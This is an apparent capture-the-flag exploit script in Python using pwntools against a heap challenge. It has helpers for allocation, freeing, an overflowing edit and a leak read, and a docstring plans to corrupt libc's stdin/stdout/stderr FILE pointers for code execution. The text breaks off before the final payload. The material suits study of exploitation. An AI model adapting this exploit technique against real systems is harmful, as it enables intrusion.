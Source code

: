 
```python
#!/usr/bin/env python3

from pwn import *
import io_file

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
global p, index

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p,gdbscript='''
dprintf *edit+0xe9,"reading into %p\\n",$rdi
continue
''')
            sleep(2)
    else:
        p = remote("172.31.3.2",4240)
    return p

def malloc(idx, size):
    p.sendlineafter(b"exit",b"1")
    p.sendlineafter(b"index >",str(idx).encode())
    p.sendlineafter(b"size >",str(size).encode())

def free(idx):
    p.sendlineafter(b"exit",b"2")
    p.sendlineafter(b"index >",str(idx).encode())

def edit(idx, data): # this func has overflow Lol
    p.sendlineafter(b"exit",b"3")
    p.sendlineafter(b"index >",str(idx).encode())
    # p.sendlineafter(b"size >",b"99999")
    p.sendafter(b"content > ",data)

def read(idx):
    p.sendlineafter(b"exit",b"3")
    p.sendlineafter(b"index > ",str(idx).encode())
    leak = p.readuntil(b"1. add note",drop=True)
    return leak


def main():
    global p
    p = conn()

    """
    babyheap & noview without doing any heap exploitation :troll:

    theory:
    for babyheap AND noview, there is no bounds check on the 'edit' feature
    this means if there are any pointers lying outside of the 'notes' array, we can write to them with the edit feature
    and right behind 'notes' are pointers to libc's stdin/stdout/stderr!
    these are well known to be VERY exploitable, and we can freely edit them. :)

    more at https://corgi.rip/posts/leakless_heap_1/, "Step 2: RCE" section
```